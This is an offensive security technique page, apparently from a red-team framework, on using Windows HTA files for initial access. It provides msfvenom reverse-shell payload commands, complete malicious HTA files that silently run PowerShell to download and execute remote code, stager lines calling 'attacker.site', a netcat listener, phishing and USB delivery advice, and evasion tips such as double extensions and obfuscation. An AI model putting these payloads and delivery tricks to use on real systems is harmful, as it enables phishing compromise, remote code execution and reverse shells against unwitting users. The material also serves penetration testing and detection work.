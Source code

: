 # HTA (HTML Application) Files

**Type:** Malicious Documents & File-Based Delivery
**Platform:** Windows  
**Prerequisites:** User must execute the `.hta` file manually (typically via phishing, USB drop, or drive-by); Windows Script Host must be enabled (enabled by default)


---
## Overview

**HTA (HTML Application)** files are Microsoft-specific executable HTML files (`.hta`) designed to run as **full-trust desktop applications** via `mshta.exe`. Unlike regular `.html` files, HTAs can access Windows Scripting Host (WSH), run system commands, interact with the file system, and spawn processes, making them ideal for malware delivery.

HTA files are commonly used by attackers for **initial access**, especially when paired with phishing emails, infected USB drops, or HTML smuggling. Since they are executed by `mshta.exe`, a **signed Microsoft binary**, HTA files can **bypass some AV/EDR detection**, and **run without macros or UAC prompts**.


---
## How It Works

1. Attacker creates an `.hta` file with embedded VBScript, JavaScript, or both.
2. The file is sent or dropped to the target system.
3. When the user opens it, `mshta.exe` executes the embedded script.
4. The script downloads and executes a second-stage payload or runs a reverse shell.

HTA execution is **native** to Windows (since XP) and doesn’t require any third-party tools or permissions.


---
## Prerequisites

**Tools Needed**
- Text editor (VS Code, Notepad++) or script generator
- Optional: `msfvenom`, PowerShell, ( for creating the second stage payload )
- Optional: Web server or hosting service



---
## Steps to Implement

1. **Create a Reverse Shell Payload (optional)**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 -f exe -o shell.exe
```
or
```shell
msfvenom -p windows/powershell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh -o shell.ps1
```

Host it using:

```bash
python3 -m http.server 80
```

2. **Create a Malicious `.hta` File**

create a `.hta`  file with embedded **JavaScript** that runs system commands
```html
<html>
<head>
<script>
      var r = new ActiveXObject("WScript.Shell");
      r.Run("powershell -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/payload.ps1')");
</script>
</head>
<body>
</body>
</html>
```

Or use **VBScript**:
```html
<html>
<head>
  <HTA:APPLICATION ID="test"/>

<script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "powershell -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/payload.ps1')"
</script>
</head>
<body>
</body>
</html>
```

![[hta-file-screenshot-1.png]]
![[hta-file-screenshot-2.png]]

3. **Deliver the `.hta` File**

- Send via email as an attachment (e.g., `invoice.hta`)
- Upload to file-sharing services (Google Drive, Dropbox)
- Drop on USB devices or shared drives

4. **Set Up Listener**
- make sure the listener is up and running ( listening for incoming connection )
e.g:
```shell
nc -nlvp 9001
```

![[prepare-for-attack.png]]

5. **Execution**

- When the user clicks the `.hta` file, `mshta.exe` will render the the HTML page ( JavaScript/VBScript ) and the embedded command will runs silently and retrieves our payload, resulting in a reverse shell being established.

![[Initial-Pwn-Framework/modules/windows/microsoft-html-application/pwnd.png]]



---
## Payload/Code Snippets

- **PowerShell One-Liner Stager**
```powershell
powershell -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker.site/shell.ps1')
```

- **mshta Command Execution**
```shell
mshta.exe http://attacker.site/payload.hta
```

> HTAs can be executed remotely by calling a hosted file using `mshta.exe`.

- **JavaScript to execute system commands** 
```html
<script>
      var r = new ActiveXObject("WScript.Shell");
      r.Run("calc.exe");
</script>
```

- **VBScript to execute system commands**
```html
<script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc.exe"
</script>
```

- **HTA tags ( configure the window and behavior of the application. )**
```html
<html>
<head>
  <HTA:APPLICATION 
    ID="CarCatalog"
    APPLICATIONNAME="CarCatalog"
    BORDER="thin"
    CAPTION="yes"
    SHOWINTASKBAR="yes"
    SINGLEINSTANCE="yes"
    SYSMENU="yes"
    WINDOWSTATE="normal" 
    SCROLL="yes" >
</head>
</html>
```


---
## Tips

- Use HTAs with obfuscated script (e.g., base64, JSFuck, or MacroPack)
- Combine with HTML Smuggling for stealth delivery
- Use .hta file extensions disguised as .pdf.hta, .doc.hta
- Some AVs may flag .hta, so host the payload as .txt or obfuscate the server path ( when using `mshta.exe <REMOTE-HTA>')



---
## References

- [LOLBAS: mshta.exe](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
- [Mshta | Red Canary Threat Detection Report](https://redcanary.com/threat-detection-report/techniques/mshta/)
- [MITRE ATT&CK – T1218.005 (Signed Binary Proxy Execution: mshta.exe)](https://attack.mitre.org/techniques/T1218/005/)
- [Creating a Malicious HTML Document](https://github.com/k4sth4/Malicious-HTA-File)
- [HTML Application (.HTA) files are being used to distribute Smoke Loader](https://www.sonicwall.com/blog/html-application-hta-files-are-being-used-to-distribute-smoke-loader-malware)
- [How .HTA Files Can be used for initial access  YOUTUBE](https://youtu.be/uYSFH5A_UDk?si=v5j5F4vmjrXTDu9j)


---

**_Author_** : **o-sec**
